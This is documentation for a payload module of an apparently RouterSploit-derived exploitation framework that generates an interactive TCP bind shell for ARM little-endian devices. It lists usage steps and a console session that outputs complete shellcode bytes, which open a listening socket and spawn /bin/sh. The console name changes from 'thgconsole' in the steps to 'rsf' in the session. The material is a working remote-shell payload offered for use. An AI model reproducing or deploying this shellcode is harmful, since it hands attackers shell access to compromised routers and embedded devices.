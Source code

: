 ## Description

Module generates payload that creates interactive tcp bind shell for ARMLE architecture.

## Verification Steps

  1. Start `./thgconsole.py`
  2. Do: `use payloads/armle/bind_tcp`
  3. Do: `set rport 4321`
  4. Do: `run`
  5. Module generates armle bind shell tcp payload

## Scenarios

```
rsf > use payloads/armle/bind_tcp
rsf (ARMLE Bind TCP) > set rport 4321
[+] rport => 4321
rsf (ARMLE Bind TCP) > run
[*] Running module...
[*] Generating payload
[+] Building payload for python
payload = (
    "\x02\x00\xa0\xe3\x01\x10\xa0\xe3\x06\x20\xa0\xe3\x07\x00\x2d"
    "\xe9\x01\x00\xa0\xe3\x0d\x10\xa0\xe1\x66\x00\x90\xef\x0c\xd0"
    "\x8d\xe2\x00\x60\xa0\xe1\xe1\x10\xa0\xe3\x10\x70\xa0\xe3\x01"
    "\x1c\xa0\xe1\x07\x18\x81\xe0\x02\x10\x81\xe2\x02\x20\x42\xe0"
    "\x06\x00\x2d\xe9\x0d\x10\xa0\xe1\x10\x20\xa0\xe3\x07\x00\x2d"
    "\xe9\x02\x00\xa0\xe3\x0d\x10\xa0\xe1\x66\x00\x90\xef\x14\xd0"
    "\x8d\xe2\x06\x00\xa0\xe1\x03\x00\x2d\xe9\x04\x00\xa0\xe3\x0d"
    "\x10\xa0\xe1\x66\x00\x90\xef\x08\xd0\x8d\xe2\x06\x00\xa0\xe1"
    "\x01\x10\x41\xe0\x02\x20\x42\xe0\x07\x00\x2d\xe9\x05\x00\xa0"
    "\xe3\x0d\x10\xa0\xe1\x66\x00\x90\xef\x0c\xd0\x8d\xe2\x00\x60"
    "\xa0\xe1\x02\x10\xa0\xe3\x06\x00\xa0\xe1\x3f\x00\x90\xef\x01"
    "\x10\x51\xe2\xfb\xff\xff\x5a\x04\x10\x4d\xe2\x02\x20\x42\xe0"
    "\x2f\x30\xa0\xe3\x62\x70\xa0\xe3\x07\x34\x83\xe0\x69\x70\xa0"
    "\xe3\x07\x38\x83\xe0\x6e\x70\xa0\xe3\x07\x3c\x83\xe0\x2f\x40"
    "\xa0\xe3\x73\x70\xa0\xe3\x07\x44\x84\xe0\x68\x70\xa0\xe3\x07"
    "\x48\x84\xe0\x73\x50\xa0\xe3\x68\x70\xa0\xe3\x07\x54\x85\xe0"
    "\x3e\x00\x2d\xe9\x08\x00\x8d\xe2\x00\x10\x8d\xe2\x04\x20\x8d"
    "\xe2\x0b\x00\x90\xef"
)
```
